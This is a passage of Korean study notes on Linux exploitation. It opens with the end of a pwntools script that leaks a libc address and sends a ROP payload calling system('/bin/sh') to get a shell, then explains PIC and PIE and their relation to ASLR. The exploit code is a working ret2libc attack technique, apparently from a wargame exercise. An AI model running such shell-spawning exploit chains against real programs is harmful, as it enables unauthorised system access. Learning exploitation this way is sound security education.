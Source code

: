 	p.send(payload)

	p.recvuntil(b'A' * 0x40)
	read = u64(p.recvn(6)+b'\x00'*2)
	lb = read - read_offset
	system = lb + system_offset
	binsh = sh + lb

	slog("read", read)
	slog("libc base", lb)
	slog("system", system)
	slog("/bin/sh", binsh)

	# Stage 2
	payload: bytes = b'A' * 0x48

	# system("/bin/sh")
	payload += p64(pop_rdi) + p64(binsh)
	payload += p64(system)

	p.send(payload)
	p.recvuntil(b'A' * 0x40)

	p.interactive()

	</code>

# PIC & PIE
## PIC
리눅스에서 ELF는 실행 파일과 공유 오브젝트로 두 가지 존재한다. 실행 파일은 addr처럼 일반적인 실행 파일이 해당하고, 공유 오브젝트는 libc.so와 같은 라이브러리 파일이 해당한다.
공유 프로젝트는 기본적으로재배치가 가능하도록 설계되어 있다. 재배치가 가능하다는 것은 메모리의 어느 주소에 적재되어도 코드의 의미가 훼손되지 않음을 의미하는데, 컴퓨터 과학에서는 이런 성질을 만족하는 코드를 Position-INdependent Code(PIC)라고 부른다.

gcc는 PIC 컴파일을 지원한다. PIC가 적용된 바이너리와 그렇지 않은 바이너리를 비교하기 위해 다음 예제를 컴파일하고 컴파일하고 어셈 코드를 비교해보자.

## PIC 코드 분석
no_pic와 pic의 main 함수를 비교해보면, main+14에서 "%p" 문자열을 printf에 전달하는 방식이 조금 다르다. no_pic에서는 0x4005a1 라는 절대 주소로 문자열을 참조하고 있따.
반면, pic는 문자열의 주소를 rip+0xa2로 참조하고 있다.

바이너리가 매핑되는 주소가 바뀌면 0x4005a1에 있던 데이터도 함께 이동하므로 no_pic의 코드는 제대로 실행되지 못한다.
그러나 pic의 코드는 rip를 기준으로 데이터를 상대참조하기 때문에 바이너리가 무작위 주소에 매핑돼도 제대로 실행될 수 있다.

## PIE
Position-Independent Executable(PIE)은 무작위 주소에 매핑돼도 실행 가능한 실행 파일을 뜻한다.
ASLR이 도입되기 전에는 실행 파일을 무작위 주소에 매핑할 필요가 없다. 그래서 리눅스의 실행 파일 형식은 재배치를 고려하지 않고 설계되었다.
이후에 ASLR이 도입되었을 때는 실행 파일도 무작위 주소에 매핑될 수 있게 하고 싶었으나, 이미 널리 사용되는 실행 파일의 형식을 변경하면 호환성 문제가 발생할 것이 분명했다.
그래서 개발자들은 원래 재배치가 가능했던 공유 오브젝트를 실행파일로 사용하기로 했다.
